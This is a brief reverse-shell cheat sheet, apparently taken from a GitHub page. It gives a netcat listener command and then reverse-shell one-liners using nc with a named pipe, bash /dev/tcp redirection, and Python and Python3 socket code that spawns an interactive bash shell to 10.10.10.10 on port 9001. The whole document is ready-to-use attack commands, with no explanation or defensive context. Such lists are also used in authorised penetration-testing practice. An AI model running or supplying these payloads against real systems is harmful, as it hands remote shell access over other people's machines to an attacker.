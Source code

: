 ### Listen

```bash
nc -nvlp 9001
```

### Get shell

#### nc

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

#### bash

```bash
bash -c "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"
```

#### python

```bash
export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

#### python3

```bash
export RHOST="10.10.10.10";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
